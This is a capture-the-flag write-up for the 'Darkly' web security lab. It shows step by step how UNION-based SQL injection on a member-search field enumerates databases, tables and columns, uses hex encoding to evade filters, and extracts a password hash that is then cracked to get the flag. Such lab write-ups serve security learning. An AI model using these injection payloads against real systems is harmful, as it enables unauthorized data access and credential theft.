 # Darkly

## Sql Injection

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### How to find the flag

1. **Identifying SQL Injection Vulnerability**:
    
    In the Members section, there is a field to search for a member by ID. This field is directly vulnerable to SQL injection. We can use a UNION-based SQL injection to retrieve information about the web-server. For example, by entering:
    
    ```sql
    1 union select 1, version()
    ```
    
    We get information about the host version:
    
    ```
    5.5.64-MariaDB-1ubuntu0.14.04.1
    ```
    
2. **Retrieving Database information:**
    
    In order to obtain the database currentyly in use, we can type:
    
    ```sql
    1 union select database(), user()
    ```
    
    Output:
    
    ```
    Member_Sql_Injection
    ```
    
    Knowing this field is vulnerable, we can enumerate all databases on the webserver using:
    
    ```sql
    1 union select schema_name, 2 from information_schema.schemata
    ```
    
    This query reveals:
    
    - information_schema
    - Member_Brute_Force
    - Member_Sql_Injection
    - Member_guestbook
    - Member_images
    - Member_survey
3. **Retrieving Tables in a Database**:
    
    Next, we can list tables within the **Member_Sql_Injection** database using:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=database()
    ```
    
    The use of `database()` is necessary to avoid syntax errors. The output shows a table named "**users**."
    
4. **Finding Columns in the “users” table:**
    
    We can view columns within the "users" table by using:
    
    ```sql
    1 union select column_name, 2 from information_schema.columns where table_name=0x7573657273
    ```
    
    Here, we converted "users" to hexadecimal (0x7573657273) to bypass potential SQL injection filters.
    
5. **Extracting data:**
    
    Now that we know the columns in the "users" table, we see a column named "**Commentaire**." To view its content, we use:
    
    ```sql
    1 UNION SELECT Commentaire, 2 FROM users
    ```
    
    In the results, we see a message saying:
    
    ```
    "Decrypt this password -> then lower all the char…"
    ```
    
    Checking all columns in "users," we also find a "**countersign**" column containing a hash. Combining **Commentaire** and **countersign** with the following query:
    
    ```sql
    1 UNION SELECT Commentaire, countersign FROM users
    ```
    
    We obtain:
    
    ```
    First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
    Surname: 5ff9d0165b4f92b14994e5c685cdce28
    ```
    
6. Decrypting the Hash:
    
    Using an MD5 decrypter, we decrypt this hash to reveal: **FortyTwo**. By converting it to lowercase and hashing it with SHA-256, we obtain the final flag.